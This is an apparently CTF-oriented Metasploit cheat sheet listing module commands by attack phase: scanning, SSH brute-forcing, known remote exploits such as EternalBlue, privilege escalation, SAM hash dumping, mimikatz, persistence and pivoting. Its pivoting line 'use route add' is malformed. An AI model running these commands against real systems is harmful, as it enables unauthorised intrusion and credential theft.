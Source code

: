 ### 🔎 Recon

```bash
use auxiliary/scanner/portscan/tcp         # fast portscan
use auxiliary/scanner/http/http_version    # webserver fingerprint
use auxiliary/scanner/http/dir_scanner     # brute dirs
use auxiliary/scanner/smb/smb_version      # SMB fingerprint
use auxiliary/scanner/ssh/ssh_login        # brute SSH creds
```

---

### 💥 Remote Exploits (CTF favorites)

```bash
use exploit/windows/smb/ms08_067_netapi       # old but common in labs
use exploit/windows/smb/ms17_010_eternalblue # WannaCry vuln
use exploit/unix/ftp/vsftpd_234_backdoor     # backdoored FTP server
use exploit/multi/http/php_cgi_arg_injection # PHP CGI RCE
use exploit/multi/http/tomcat_mgr_upload     # deploy WAR shell
use exploit/multi/http/struts2_content_type_ognl # Struts2 RCE
```

---

### 🪓 PrivEsc (after foothold)

```bash
use post/multi/recon/local_exploit_suggester
use exploit/windows/local/bypassuac
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
use exploit/linux/local/dirty_cow
```

---

### 🔑 Looting / Creds

```bash
use post/windows/gather/hashdump            # dump SAM
use post/windows/gather/credentials/mimikatz # run mimikatz
use auxiliary/analyze/jtr_crack_fast        # crack dumped hashes
```

---

### 🎭 Post-Exploitation

```bash
use post/multi/manage/shell_to_meterpreter  # upgrade dumb shell
use post/windows/manage/migrate             # migrate to stable proc
use exploit/windows/local/persistence       # add persistence
```

---

### 🌐 Pivoting (if CTF has internal net)

```bash
use auxiliary/server/socks_proxy            # pivot via socks
use route add <subnet> <session>            # add pivot route
```

---

- Always start with `local_exploit_suggester` after getting a shell → it usually wins.
- Hashdump + mimikatz almost always give you the next step.
